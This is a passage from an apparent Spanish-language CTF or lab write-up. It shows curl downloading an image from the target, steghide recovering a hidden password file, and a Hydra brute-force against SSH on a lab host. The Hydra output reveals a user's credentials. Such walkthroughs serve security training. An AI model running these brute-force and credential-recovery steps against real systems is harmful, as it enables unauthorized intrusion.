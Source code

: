 Pero no veremos nada interesante, ya que solo hay una imagen, vamos a probar a extraer cualquier archivo que pueda esconder dentro de la misma.

## steghide

Primero nos descargaremos la imagen:

```shell
curl -O http://<IP>/saint.jpg
```

Ahora vamos a probar a extraer cualquier archivo que pueda contener.

```shell
steghide extract -sf saint.jpg
```

Dejamos la contraseña vacia.

Info:

```
Enter passphrase: 
wrote extracted data to "pass.txt".
```

Y veremos que ha funcionado, nos ha extraido un archivo llamado `pass.txt` lo que podemos creer que pueda ser la contraseña de algun usuario del sistema, pero como todavia no lo sabemos, vamos a realizar ppfuerza bruta para intentar sacar algunas credenciales.

## Escalate user

### Hydra

```shell
hydra -L <WORDLIST> -p lionsarebigcats ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-11 03:29:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 624370 login tries (l:624370/p:1), ~9756 tries per task
[DATA] attacking ssh://192.168.5.12:22/
[22][ssh] host: 192.168.5.12   login: daniel   password: lionsarebigcats
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Veremos que ha funcionado y hemos obtenido las credenciales de `daniel`, por lo que nos conectaremos por `SSH`.

